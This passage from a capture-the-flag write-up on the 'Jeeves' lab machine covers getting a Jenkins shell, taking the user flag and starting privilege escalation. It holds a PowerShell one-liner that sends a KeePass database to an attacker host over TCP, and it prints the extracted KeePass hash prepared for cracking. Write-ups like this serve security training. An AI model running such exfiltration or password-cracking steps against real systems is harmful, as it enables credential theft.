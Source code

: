 Boom… we got the system shell.

![image.png](/images/jeeves/image15.png)

 On Jeeves the Jenkins application is running as  user kohsuke.

### user flag

![image.png](/images/jeeves/image16.png)

We found the user flag in kohsuke’s desktop.

### Privilege Escalation

Right now we are in system shell as a user. Now let’s get into as a administrator.

In the Documents folder we find a CEH.kdbx

![image.png](/images/jeeves/image17.png)

The data are all encrypted

![image.png](/images/jeeves/image18.png)

Let’s transfer this kdbx file to our machine and decrypt it. We can achieve this with netcat and powershell command.

In our machine start netcat

![image.png](/images/jeeves/image19.png)

Paste the follow command where the CEH.kdbx is located.

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.14',4444);$stream = $client.GetStream();$file = [System.IO.File]::ReadAllBytes('C:\Users\kohsuke\Documents\CEH.kdbx');$stream.Write($file, 0, $file.Length);$stream.Close();$client.Close()"
```

![image.png](/images/jeeves/image20.png)

![image.png](/images/jeeves/image21.png)

We have CEH.kdbx file, let’s decrypt it. I search on google and found that keepass2john is used to convert keepass file into hash. let’s do it.

![image.png](/images/jeeves/image22.png)

Using [hashes.com](http://hashes.com)  we can decrypt .kdbx to hash. From our CEH.kdbx we got the following hash.

```powershell
$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```
